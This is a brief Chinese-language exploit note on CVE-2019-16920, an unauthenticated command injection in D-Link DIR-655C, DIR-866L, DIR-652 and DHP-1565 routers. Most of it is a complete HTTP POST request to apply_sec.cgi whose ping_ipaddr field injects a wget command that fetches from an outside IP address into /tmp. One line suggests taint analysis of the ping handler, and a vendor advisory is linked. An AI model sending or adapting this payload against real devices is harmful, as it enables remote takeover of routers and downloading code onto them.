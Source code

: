 ## 0x01 路由器漏洞 CVE-2019-16920

D-Link无认证命令注入  
DIR-655C, DIR-866L, DIR-652, and DHP-1565.

Payload

```
POST /apply_sec.cgi HTTP/1.1
Host: 192.168.232.128
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Connection: close
Referer: http://192.168.232.128/login_pic.asp
Cookie: uid=1234123
Upgrade-Insecure-Requests: 1
html_response_page=login_pic.asp&action=ping_test&ping_ipaddr=127.0.0.1%0awget%20-P%20/tmp/%20http://45.76.148.31:4321/?$(echo 1234)
```

又是ping，应该定位ping，然后污点分析  

Ref：

[d-link-routers-found-vulnerable-rce](https://www.fortinet.com/blog/threat-research/d-link-routers-found-vulnerable-rce.html)




